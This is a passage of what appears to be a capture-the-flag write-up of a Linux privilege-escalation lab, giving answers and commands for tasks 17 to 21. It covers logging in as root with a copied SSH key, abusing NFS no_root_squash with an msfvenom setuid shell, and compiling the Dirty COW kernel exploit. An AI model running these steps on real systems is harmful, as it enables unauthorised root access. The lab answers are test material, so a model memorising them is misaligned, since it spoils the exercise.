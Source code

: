 #### Task 17: Passwords & Keys - Config Files

- What file did you find the root user's credentials in?   
	- `/etc/openvpn/auth.txt`

#### Task 18: Passwords & Keys - SSH Keys

- Read and follow along with the above.
	- `No answer needed`

Copy the rsa key from the .ssh directory to your box.
Then chmod read & write only the root-key 
```
ls -la /
ls -la /.ssh
chmod 600 root_key
ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@10.10.195.113
```

#### Task 19: NFS

- What is the name of the option that disables root squashing?
	- `no_root_squash`

In the victim box.
```
cat /etc/exports
```

In the attacker box.
```
sudo mkdir /tmp/nfs
sudo mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
chmod +xs /tmp/nfs/shell.elf
```

In the victim box.
```
/tmp/shell.elf
```
#### Task 20: Kernel Exploits

- Read and follow along with the above.
	- `No answer needed`

```
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
/usr/bin/passwd
mv /tmp/bak /usr/bin/passwd
exit
```

#### Task 21: Privilege Escalation Scripts

- Read and follow along with the above.
	- `No answer needed`
	
